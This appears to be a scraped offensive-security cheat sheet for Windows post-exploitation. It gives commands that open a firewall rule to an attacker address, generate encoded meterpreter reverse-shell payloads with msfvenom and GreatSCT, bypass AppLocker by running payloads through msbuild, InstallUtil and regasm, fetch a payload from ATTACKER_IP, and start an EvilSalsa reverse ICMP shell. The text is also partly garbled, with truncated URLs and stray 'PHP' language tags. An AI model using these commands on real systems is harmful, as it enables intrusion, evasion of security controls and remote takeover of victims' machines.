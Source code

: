 ```

New-NetFirewallRule -Name inrules -DisplayName morph3inbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IPCode language: PHP (php)
```


**Applocker ByPass**
--------------------

```

https:
https:
https:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.56 LPORT=9001  -f csharp -e x86/shikata_ga_nai -i  > out.cs 

https:
Invoke-WebRequest "http://ATTACKER_IP/payload.csproj" -OutFile "out.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\out.csprojCode language: PHP (php)
```


**GreatSCT**
------------

```

 
python GreatSCT.py --ip 192.168.1.56 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"
C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload1.exe
python3 GreatSCT.py -t Bypass -p regasm/meterpreter/rev_tcp --ip 192.168.1.56 --port 9001
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U payload.dllCode language: PHP (php)
```


**EvilSalsa**
-------------

```


python EncrypterAssembly/encrypterassembly.py EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt
EncrypterAssembly.exe EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt

SalseoLoader.exe password http:

python icmpsh_m.py "ATTACKER_IP" "VICTIM_IP"
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp ATTACKER_IPCode language: PHP (php)
```

